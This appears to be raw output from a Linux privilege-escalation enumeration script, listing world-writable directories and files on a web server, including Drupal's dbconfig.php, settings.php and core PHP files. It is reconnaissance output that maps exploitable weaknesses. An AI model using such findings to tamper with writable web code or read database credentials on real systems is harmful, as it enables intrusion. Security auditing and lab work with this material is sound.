drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools
drwxrwxrwx 8 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/css
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/as3
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/as3/lib
drwxrwxrwx 4 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/css
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/src
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/images
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/js
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/swf
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/js
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller
drwxrwxrwx 5 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/data
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs
drwxrwxrwx 5 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/images
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/license
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/js
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/js
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs
drwxrwxrwx 6 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/css
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/images
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/license
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/js
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/js
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder
drwxrwxrwx 6 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/css
drwxrwxrwx 4 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/css
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols/src
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/images
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/js
drwxrwxrwx 5 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/css
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/js
drwxrwxrwx 4 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/docs
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/images
drwxrwxrwx 2 root root 4096 Oct 20 16:39 /var/www/html/jabcd0cs/uploads
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/class.tree
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2
drwxrwxrwx 2 root root 4096 Oct 20 16:30 /var/www/html/jabcd0cs/templates_c
drwxrwxrwx 5 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates
drwxrwxrwx 6 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/common
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/css
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/images
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/js
drwxrwxrwx 6 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/css
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/images
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/img
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/js
drwxrwxrwx 4 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/default
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/default/css
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/templates/default/img
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/reports
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/plug-ins
drwxrwxrwt 2 root root 4096 Apr 30 2016 /var/tmp
drwx-wx-wt 3 root root 4096 Oct 21 19:39 /var/lib/php5
drwxrwxrwt 2 root root 4096 Apr 3 2016 /var/crash
[+] World Writeable Directories for Users other than Root
[+] World Writable Files
-rwxrwxrwx 1 root www-data 576 Apr 16 2016 /etc/drupal/7/sites/default/dbconfig.php
-rwxrwxrwx 1 root root 18599 Jan 15 2014 /etc/drupal/7/sites/default/settings.php
--w--w--w- 1 root root 0 Oct 22 20:19 /sys/fs/cgroup/systemd/user/1001.user/1.session/cgroup.event_control
--w--w--w- 1 root root 0 Oct 22 20:19 /sys/fs/cgroup/systemd/user/1001.user/cgroup.event_control
--w--w--w- 1 root root 0 Oct 22 20:19 /sys/fs/cgroup/systemd/user/cgroup.event_control
--w--w--w- 1 root root 0 Oct 22 13:36 /sys/fs/cgroup/systemd/cgroup.event_control
-rw-rw-rw- 1 root root 0 Oct 22 13:36 /sys/kernel/security/apparmor/.access
-rwxrwxrwx 1 root root 969 May 3 2016 /var/www/html/index.html
-rwxrwxrwx 1 root root 1561 Apr 16 2016 /var/www/html/jabc/robots.txt
-rwxrwxrwx 1 root root 6604 Apr 16 2016 /var/www/html/jabc/authorize.php
-rwxrwxrwx 1 root root 1701 Apr 16 2016 /var/www/html/jabc/includes/archiver.inc
-rwxrwxrwx 1 root root 3188 Apr 16 2016 /var/www/html/jabc/includes/json-encode.inc
-rwxrwxrwx 1 root root 2310 Apr 16 2016 /var/www/html/jabc/includes/batch.queue.inc
-rwxrwxrwx 1 root root 191182 Apr 16 2016 /var/www/html/jabc/includes/form.inc
-rwxrwxrwx 1 root root 88853 Apr 16 2016 /var/www/html/jabc/includes/file.inc
-rwxrwxrwx 1 root root 17738 Apr 16 2016 /var/www/html/jabc/includes/xmlrpc.inc
-rwxrwxrwx 1 root root 110181 Apr 16 2016 /var/www/html/jabc/includes/theme.inc
-rwxrwxrwx 1 root root 40949 Apr 16 2016 /var/www/html/jabc/includes/module.inc
-rwxrwxrwx 1 root root 11142 Apr 16 2016 /var/www/html/jabc/includes/xmlrpcs.inc
-rwxrwxrwx 1 root root 4828 Apr 16 2016 /var/www/html/jabc/includes/graph.inc
-rwxrwxrwx 1 root root 13675 Apr 16 2016 /var/www/html/jabc/includes/updater.inc
-rwxrwxrwx 1 root root 20759 Apr 16 2016 /var/www/html/jabc/includes/path.inc
-rwxrwxrwx 1 root root 84054 Apr 16 2016 /var/www/html/jabc/includes/locale.inc
-rwxrwxrwx 1 root root 12009 Apr 16 2016 /var/www/html/jabc/includes/filetransfer/filetransfer.inc
-rwxrwxrwx 1 root root 4790 Apr 16 2016 /var/www/html/jabc/includes/filetransfer/ftp.inc
-rwxrwxrwx 1 root root 2777 Apr 16 2016 /var/www/html/jabc/includes/filetransfer/local.inc
-rwxrwxrwx 1 root root 4121 Apr 16 2016 /var/www/html/jabc/includes/filetransfer/ssh.inc
-rwxrwxrwx 1 root root 1991 Apr 16 2016 /var/www/html/jabc/includes/utility.inc
-rwxrwxrwx 1 root root 23819 Apr 16 2016 /var/www/html/jabc/includes/file.mimetypes.inc
-rwxrwxrwx 1 root root 5487 Apr 16 2016 /var/www/html/jabc/includes/unicode.entities.inc
-rwxrwxrwx 1 root root 17497 Apr 16 2016 /var/www/html/jabc/includes/batch.inc
-rwxrwxrwx 1 root root 13664 Apr 16 2016 /var/www/html/jabc/includes/authorize.inc
-rwxrwxrwx 1 root root 7478 Apr 16 2016 /var/www/html/jabc/includes/tablesort.inc
-rwxrwxrwx 1 root root 22554 Apr 16 2016 /var/www/html/jabc/includes/pager.inc
-rwxrwxrwx 1 root root 15466 Apr 16 2016 /var/www/html/jabc/includes/iso.inc
-rwxrwxrwx 1 root root 2487 Apr 16 2016 /var/www/html/jabc/includes/cache-install.inc
-rwxrwxrwx 1 root root 44095 Apr 16 2016 /var/www/html/jabc/includes/install.inc
-rwxrwxrwx 1 root root 46913 Apr 16 2016 /var/www/html/jabc/includes/ajax.inc
-rwxrwxrwx 1 root root 22583 Apr 16 2016 /var/www/html/jabc/includes/unicode.inc
-rwxrwxrwx 1 root root 19998 Apr 16 2016 /var/www/html/jabc/includes/cache.inc
-rwxrwxrwx 1 root root 9362 Apr 16 2016 /var/www/html/jabc/includes/password.inc
-rwxrwxrwx 1 root root 4506 Apr 16 2016 /var/www/html/jabc/includes/date.inc
-rwxrwxrwx 1 root root 23173 Apr 16 2016 /var/www/html/jabc/includes/stream_wrappers.inc
-rwxrwxrwx 1 root root 13416 Apr 16 2016 /var/www/html/jabc/includes/image.inc
-rwxrwxrwx 1 root root 9864 Apr 16 2016 /var/www/html/jabc/includes/token.inc
-rwxrwxrwx 1 root root 139035 Apr 16 2016 /var/www/html/jabc/includes/menu.inc
-rwxrwxrwx 1 root root 46098 Apr 16 2016 /var/www/html/jabc/includes/entity.inc
-rwxrwxrwx 1 root root 303365 Apr 16 2016 /var/www/html/jabc/includes/common.inc
-rwxrwxrwx 1 root root 13816 Apr 16 2016 /var/www/html/jabc/includes/actions.inc
-rwxrwxrwx 1 root root 10320 Apr 16 2016 /var/www/html/jabc/includes/errors.inc
-rwxrwxrwx 1 root root 79301 Apr 16 2016 /var/www/html/jabc/includes/install.core.inc
-rwxrwxrwx 1 root root 18341 Apr 16 2016 /var/www/html/jabc/includes/session.inc
-rwxrwxrwx 1 root root 6425 Apr 16 2016 /var/www/html/jabc/includes/registry.inc
-rwxrwxrwx 1 root root 59045 Apr 16 2016 /var/www/html/jabc/includes/update.inc
-rwxrwxrwx 1 root root 23197 Apr 16 2016 /var/www/html/jabc/includes/mail.inc
-rwxrwxrwx 1 root root 7070 Apr 16 2016 /var/www/html/jabc/includes/theme.maintenance.inc
-rwxrwxrwx 1 root root 9383 Apr 16 2016 /var/www/html/jabc/includes/lock.inc
-rwxrwxrwx 1 root root 27085 Apr 16 2016 /var/www/html/jabc/includes/database/schema.inc
-rwxrwxrwx 1 root root 13990 Apr 16 2016 /var/www/html/jabc/includes/database/prefetch.inc
-rwxrwxrwx 1 root root 95779 Apr 16 2016 /var/www/html/jabc/includes/database/database.inc
-rwxrwxrwx 1 root root 4872 Apr 16 2016 /var/www/html/jabc/includes/database/log.inc
-rwxrwxrwx 1 root root 18554 Apr 16 2016 /var/www/html/jabc/includes/database/mysql/schema.inc
-rwxrwxrwx 1 root root 8169 Apr 16 2016 /var/www/html/jabc/includes/database/mysql/database.inc
-rwxrwxrwx 1 root root 629 Apr 16 2016 /var/www/html/jabc/includes/database/mysql/install.inc
-rwxrwxrwx 1 root root 2911 Apr 16 2016 /var/www/html/jabc/includes/database/mysql/query.inc
-rwxrwxrwx 1 root root 49714 Apr 16 2016 /var/www/html/jabc/includes/database/select.inc
-rwxrwxrwx 1 root root 23403 Apr 16 2016 /var/www/html/jabc/includes/database/sqlite/schema.inc
-rwxrwxrwx 1 root root 17957 Apr 16 2016 /var/www/html/jabc/includes/database/sqlite/database.inc
-rwxrwxrwx 1 root root 1705 Apr 16 2016 /var/www/html/jabc/includes/database/sqlite/install.inc
-rwxrwxrwx 1 root root 404 Apr 16 2016 /var/www/html/jabc/includes/database/sqlite/select.inc
-rwxrwxrwx 1 root root 4405 Apr 16 2016 /var/www/html/jabc/includes/database/sqlite/query.inc
-rwxrwxrwx 1 root root 23051 Apr 16 2016 /var/www/html/jabc/includes/database/pgsql/schema.inc
-rwxrwxrwx 1 root root 8119 Apr 16 2016 /var/www/html/jabc/includes/database/pgsql/database.inc
-rwxrwxrwx 1 root root 7135 Apr 16 2016 /var/www/html/jabc/includes/database/pgsql/install.inc
-rwxrwxrwx 1 root root 3457 Apr 16 2016 /var/www/html/jabc/includes/database/pgsql/select.inc
-rwxrwxrwx 1 root root 7872 Apr 16 2016 /var/www/html/jabc/includes/database/pgsql/query.inc
-rwxrwxrwx 1 root root 57435 Apr 16 2016 /var/www/html/jabc/includes/database/query.inc
-rwxrwxrwx 1 root root 19468 Apr 16 2016 /var/www/html/jabc/includes/language.inc
-rwxrwxrwx 1 root root 119605 Apr 16 2016 /var/www/html/jabc/includes/bootstrap.inc
-rwxrwxrwx 1 root root 19986 Apr 16 2016 /var/www/html/jabc/update.php
-rwxrwxrwx 1 root root 417 Apr 16 2016 /var/www/html/jabc/xmlrpc.php
-rwxrwxrwx 1 root root 12105 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.admin.inc
-rwxrwxrwx 1 root root 215 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.js
-rwxrwxrwx 1 root root 311 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.info
-rwxrwxrwx 1 root root 19144 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.module
-rwxrwxrwx 1 root root 19120 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.test
-rwxrwxrwx 1 root root 3260 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.pages.inc
-rwxrwxrwx 1 root root 912 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.php
-rwxrwxrwx 1 root root 1783 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.tokens.inc
-rwxrwxrwx 1 root root 4284 Apr 16 2016 /var/www/html/jabc/modules/statistics/statistics.install
-rwxrwxrwx 1 root root 94806 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.test
-rwxrwxrwx 1 root root 396 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.info
-rwxrwxrwx 1 root root 3649 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.tpl.php
-rwxrwxrwx 1 root root 2026 Apr 16 2016 /var/www/html/jabc/modules/comment/comment-wrapper.tpl.php
-rwxrwxrwx 1 root root 55 Apr 16 2016 /var/www/html/jabc/modules/comment/comment-rtl.css
-rwxrwxrwx 1 root root 9327 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.admin.inc
-rwxrwxrwx 1 root root 7851 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.tokens.inc
-rwxrwxrwx 1 root root 4595 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.pages.inc
-rwxrwxrwx 1 root root 184 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.css
-rwxrwxrwx 1 root root 92862 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.module
-rwxrwxrwx 1 root root 18279 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.install
-rwxrwxrwx 1 root root 3893 Apr 16 2016 /var/www/html/jabc/modules/comment/comment.api.php
-rwxrwxrwx 1 root root 1050 Apr 16 2016 /var/www/html/jabc/modules/comment/comment-node-form.js
-rwxrwxrwx 1 root root 9060 Apr 16 2016 /var/www/html/jabc/modules/blog/blog.module
-rwxrwxrwx 1 root root 244 Apr 16 2016 /var/www/html/jabc/modules/blog/blog.info
-rwxrwxrwx 1 root root 8486 Apr 16 2016 /var/www/html/jabc/modules/blog/blog.test
-rwxrwxrwx 1 root root 3494 Apr 16 2016 /var/www/html/jabc/modules/blog/blog.pages.inc
-rwxrwxrwx 1 root root 404 Apr 16 2016 /var/www/html/jabc/modules/blog/blog.install
-rwxrwxrwx 1 root root 67678 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.module
-rwxrwxrwx 1 root root 2183 Apr 16 2016 /var/www/html/jabc/modules/filter/tests/filter.url-input.txt
-rwxrwxrwx 1 root root 3638 Apr 16 2016 /var/www/html/jabc/modules/filter/tests/filter.url-output.txt
-rwxrwxrwx 1 root root 2409 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.pages.inc
-rwxrwxrwx 1 root root 323 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.info
-rwxrwxrwx 1 root root 923 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.css
-rwxrwxrwx 1 root root 87527 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.test
-rwxrwxrwx 1 root root 1580 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.admin.js
-rwxrwxrwx 1 root root 15807 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.install
-rwxrwxrwx 1 root root 14761 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.admin.inc
-rwxrwxrwx 1 root root 556 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.js
-rwxrwxrwx 1 root root 11813 Apr 16 2016 /var/www/html/jabc/modules/filter/filter.api.php
-rwxrwxrwx 1 root root 1116 Apr 16 2016 /var/www/html/jabc/modules/image/image.admin.css
-rwxrwxrwx 1 root root 323 Apr 16 2016 /var/www/html/jabc/modules/image/tests/image_module_test.info
-rwxrwxrwx 1 root root 1101 Apr 16 2016 /var/www/html/jabc/modules/image/tests/image_module_test.module
-rwxrwxrwx 1 root root 77904 Apr 16 2016 /var/www/html/jabc/modules/image/image.test
-rwxrwxrwx 1 root root 225 Apr 16 2016 /var/www/html/jabc/modules/image/image.css
-rwxrwxrwx 1 root root 15138 Apr 16 2016 /var/www/html/jabc/modules/image/image.install
-rwxrwxrwx 1 root root 139 Apr 16 2016 /var/www/html/jabc/modules/image/image-rtl.css
-rwxrwxrwx 1 root root 33545 Apr 16 2016 /var/www/html/jabc/modules/image/image.admin.inc
-rwxrwxrwx 1 root root 21068 Apr 16 2016 /var/www/html/jabc/modules/image/image.field.inc
-rwxrwxrwx 1 root root 168110 Apr 16 2016 /var/www/html/jabc/modules/image/sample.png
-rwxrwxrwx 1 root root 12334 Apr 16 2016 /var/www/html/jabc/modules/image/image.effects.inc
-rwxrwxrwx 1 root root 47227 Apr 16 2016 /var/www/html/jabc/modules/image/image.module
-rwxrwxrwx 1 root root 321 Apr 16 2016 /var/www/html/jabc/modules/image/image.info
-rwxrwxrwx 1 root root 7214 Apr 16 2016 /var/www/html/jabc/modules/image/image.api.php
-rwxrwxrwx 1 root root 13662 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.test
-rwxrwxrwx 1 root root 529 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.png
-rwxrwxrwx 1 root root 104 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.admin.css
-rwxrwxrwx 1 root root 1067 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut-rtl.css
-rwxrwxrwx 1 root root 2408 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.css
-rwxrwxrwx 1 root root 26882 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.admin.inc
-rwxrwxrwx 1 root root 336 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.info
-rwxrwxrwx 1 root root 3053 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.install
-rwxrwxrwx 1 root root 1239 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.api.php
-rwxrwxrwx 1 root root 27199 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.module
-rwxrwxrwx 1 root root 4485 Apr 16 2016 /var/www/html/jabc/modules/shortcut/shortcut.admin.js
-rwxrwxrwx 1 root root 2082 Apr 16 2016 /var/www/html/jabc/modules/aggregator/tests/aggregator_test.module
-rwxrwxrwx 1 root root 2593 Apr 16 2016 /var/www/html/jabc/modules/aggregator/tests/aggregator_test_rss091.xml
-rwxrwxrwx 1 root root 572 Apr 16 2016 /var/www/html/jabc/modules/aggregator/tests/aggregator_test_atom.xml
-rwxrwxrwx 1 root root 285 Apr 16 2016 /var/www/html/jabc/modules/aggregator/tests/aggregator_test.info
-rwxrwxrwx 1 root root 715 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator-summary-item.tpl.php
-rwxrwxrwx 1 root root 1296 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator-item.tpl.php
-rwxrwxrwx 1 root root 124 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator-rtl.css
-rwxrwxrwx 1 root root 28677 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.module
-rwxrwxrwx 1 root root 9558 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.parser.inc
-rwxrwxrwx 1 root root 19870 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.pages.inc
-rwxrwxrwx 1 root root 7379 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.api.php
-rwxrwxrwx 1 root root 38360 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.test
-rwxrwxrwx 1 root root 8071 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.processor.inc
-rwxrwxrwx 1 root root 397 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator-wrapper.tpl.php
-rwxrwxrwx 1 root root 380 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.info
-rwxrwxrwx 1 root root 1696 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.fetcher.inc
-rwxrwxrwx 1 root root 652 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator-summary-items.tpl.php
-rwxrwxrwx 1 root root 24420 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.admin.inc
-rwxrwxrwx 1 root root 1105 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator-feed-source.tpl.php
-rwxrwxrwx 1 root root 9621 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.install
-rwxrwxrwx 1 root root 779 Apr 16 2016 /var/www/html/jabc/modules/aggregator/aggregator.css
-rwxrwxrwx 1 root root 1689 Apr 16 2016 /var/www/html/jabc/modules/user/user-profile.tpl.php
-rwxrwxrwx 1 root root 275 Apr 16 2016 /var/www/html/jabc/modules/user/tests/user_form_test.info
-rwxrwxrwx 1 root root 1743 Apr 16 2016 /var/www/html/jabc/modules/user/tests/user_form_test.module
-rwxrwxrwx 1 root root 39444 Apr 16 2016 /var/www/html/jabc/modules/user/user.admin.inc
-rwxrwxrwx 1 root root 366 Apr 16 2016 /var/www/html/jabc/modules/user/user.info
-rwxrwxrwx 1 root root 1001 Apr 16 2016 /var/www/html/jabc/modules/user/user-profile-category.tpl.php
-rwxrwxrwx 1 root root 29469 Apr 16 2016 /var/www/html/jabc/modules/user/user.install
-rwxrwxrwx 1 root root 4093 Apr 16 2016 /var/www/html/jabc/modules/user/user.tokens.inc
-rwxrwxrwx 1 root root 141848 Apr 16 2016 /var/www/html/jabc/modules/user/user.module
-rwxrwxrwx 1 root root 595 Apr 16 2016 /var/www/html/jabc/modules/user/user-picture.tpl.php
-rwxrwxrwx 1 root root 21936 Apr 16 2016 /var/www/html/jabc/modules/user/user.pages.inc
-rwxrwxrwx 1 root root 6568 Apr 16 2016 /var/www/html/jabc/modules/user/user.js
-rwxrwxrwx 1 root root 2723 Apr 16 2016 /var/www/html/jabc/modules/user/user.permissions.js
-rwxrwxrwx 1 root root 918 Apr 16 2016 /var/www/html/jabc/modules/user/user-profile-item.tpl.php
-rwxrwxrwx 1 root root 99132 Apr 16 2016 /var/www/html/jabc/modules/user/user.test
-rwxrwxrwx 1 root root 510 Apr 16 2016 /var/www/html/jabc/modules/user/user-rtl.css
-rwxrwxrwx 1 root root 1827 Apr 16 2016 /var/www/html/jabc/modules/user/user.css
-rwxrwxrwx 1 root root 15764 Apr 16 2016 /var/www/html/jabc/modules/user/user.api.php
-rwxrwxrwx 1 root root 1591 Apr 16 2016 /var/www/html/jabc/modules/rdf/tests/rdf_test.module
-rwxrwxrwx 1 root root 270 Apr 16 2016 /var/www/html/jabc/modules/rdf/tests/rdf_test.info
-rwxrwxrwx 1 root root 472 Apr 16 2016 /var/www/html/jabc/modules/rdf/tests/rdf_test.install
-rwxrwxrwx 1 root root 35857 Apr 16 2016 /var/www/html/jabc/modules/rdf/rdf.test
-rwxrwxrwx 1 root root 1292 Apr 16 2016 /var/www/html/jabc/modules/rdf/rdf.install
-rwxrwxrwx 1 root root 35553 Apr 16 2016 /var/www/html/jabc/modules/rdf/rdf.module
-rwxrwxrwx 1 root root 365 Apr 16 2016 /var/www/html/jabc/modules/rdf/rdf.info
-rwxrwxrwx 1 root root 3636 Apr 16 2016 /var/www/html/jabc/modules/rdf/rdf.api.php
-rwxrwxrwx 1 root root 289 Apr 16 2016 /var/www/html/jabc/modules/translation/tests/translation_test.info
-rwxrwxrwx 1 root root 207 Apr 16 2016 /var/www/html/jabc/modules/translation/tests/translation_test.module
-rwxrwxrwx 1 root root 322 Apr 16 2016 /var/www/html/jabc/modules/translation/translation.info
-rwxrwxrwx 1 root root 3278 Apr 16 2016 /var/www/html/jabc/modules/translation/translation.pages.inc
-rwxrwxrwx 1 root root 22087 Apr 16 2016 /var/www/html/jabc/modules/translation/translation.test
-rwxrwxrwx 1 root root 22652 Apr 16 2016 /var/www/html/jabc/modules/translation/translation.module
-rwxrwxrwx 1 root root 1340 Apr 16 2016 /var/www/html/jabc/modules/toolbar/toolbar.tpl.php
-rwxrwxrwx 1 root root 561 Apr 16 2016 /var/www/html/jabc/modules/toolbar/toolbar-rtl.css
-rwxrwxrwx 1 root root 3020 Apr 16 2016 /var/www/html/jabc/modules/toolbar/toolbar.js
-rwxrwxrwx 1 root root 3376 Apr 16 2016 /var/www/html/jabc/modules/toolbar/toolbar.css
-rwxrwxrwx 1 root root 10958 Apr 16 2016 /var/www/html/jabc/modules/toolbar/toolbar.module
-rwxrwxrwx 1 root root 558 Apr 16 2016 /var/www/html/jabc/modules/toolbar/toolbar.png
-rwxrwxrwx 1 root root 301 Apr 16 2016 /var/www/html/jabc/modules/toolbar/toolbar.info
